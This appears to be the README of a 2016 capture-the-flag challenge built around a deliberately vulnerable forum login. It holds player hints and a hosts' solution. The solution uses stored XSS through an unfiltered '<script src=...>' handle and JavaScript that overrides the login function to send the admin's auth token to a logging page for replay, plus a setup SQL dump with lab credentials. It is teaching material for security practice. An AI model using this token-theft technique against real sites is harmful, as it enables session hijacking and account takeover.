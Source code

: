 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and use the RAW link as their created user's handle.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter in the `src`.
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

<s>### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the **RAW** link as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.</s>

Just have them inject code like the solution below.

Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. In this case they will send it to `Log.php`. Since it's local they won't need to do anything fancy. Just a jQuery GET request.
the request will look like this `Log.php?data=whateveryouwantittobeandforittolog`.
To get the last GET request, navigate to `Log.php` without the data tag to see it. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 



# Setup

Import the following SQL to setup
```
# ************************************************************
# Sequel Pro SQL dump
# Version 4541
#
# http://www.sequelpro.com/
# https://github.com/sequelpro/sequelpro
#
# Host: 127.0.0.1 (MySQL 5.5.46-0ubuntu0.14.04.2)
# Database: challenge
# Generation Time: 2016-12-09 20:33:41 +0000
# ************************************************************


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;


# Dump of table login
# ------------------------------------------------------------

DROP TABLE IF EXISTS `login`;

CREATE TABLE `login` (
  `username` varchar(30) NOT NULL DEFAULT '',
  `password` text NOT NULL,
  `authToken` text NOT NULL,
  `handle` varchar(200) NOT NULL DEFAULT '',
  `created` datetime NOT NULL,
  PRIMARY KEY (`username`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;

INSERT INTO `login` (`username`, `password`, `authToken`, `handle`, `created`)
VALUES
	('thebestadmin','$2y$10$129139293012312093210u1xpEeTfbT5Yeixf3KSdSAv/BgFs4Qsq','7da7e821a5b8ee25e8f42b56d573f0cc','notyourbusiness','2016-12-09 19:36:34');

/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;



/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

There needs to exist a `login` user with password: `Password1` that has the following permissions: `SELECT, INSERT, UPDATE`
to the `login` table, which exists in the `challenge` database.

The above script includes the login credentials so you'll be good.

As for the cron. go to the `cronadmin` folder and npm install. Have the cron run `node index.js` and ensure it works. If it doesn't, login as the admin to get an authtoken logged by going into the website and logging in as `thebestadmin` `securepassword1`. Once there it should create a file named `authTokenStorage.txt` which contains the authToken (I'm lazy, okay?)

# Solution Script
There exists `Log.php` which will aid them in repeating the last get request with a `data` parameter in it. 
```
authTokenLogin = function(authToken) {
  $.get( "log.php?data=" + authToken, function( data ) {
  });
}
```
Using this will replace the authToken login and allow the user to get the data by going to `directory/log.php`

Once that's done, they make the same request that authTokenLogin had previously to login as the admin!
